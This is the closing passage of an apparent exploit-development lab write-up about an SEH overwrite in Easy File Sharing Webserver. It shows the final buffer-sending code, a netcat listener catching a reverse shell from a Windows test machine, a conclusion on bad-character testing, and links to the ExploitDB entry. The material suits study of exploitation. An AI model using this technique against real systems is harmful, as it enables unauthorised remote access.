 ```python
expl.send(buffer)
expl.close()
```

And we receive our reverse shell!
```terminal_session
root@kali:~/# nc -lvp 443                                            
listening on [any] 443 ...
connect to [192.168.1.208] from IEWIN7.fios-router.home [192.168.1.201] 49202
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop>
```

## Conclusion

All in all, a pretty standard SEH overwrite with some extensive badcharacter testing. The badcharacters were making the application misbehave and the first time I ran through the exploit I was having trouble finding a process that reliably found bad characters, but it seems that sticking to the traditional way of checking for bad characters served us pretty well this time through. We just had to be thorough. It was fun to recreate an ExploitDB exploit from scratch, we will continue this until test time! Thanks for reading!


## Resources

+ [Exploit DB Entry for Easy File Sharing Webserver](https://www.exploit-db.com/exploits/39008)
+ [EFS Download](http://www.sharing-file.com/)
+ [HTTP Exploit Skeleton](https://github.com/HanseSecure/ExploitDev/blob/master/poc/http.py)
+ [Boofuzz HTTP Template](https://stackoverflow.com/questions/45355344/http-fuzzing-with-boofuzz)
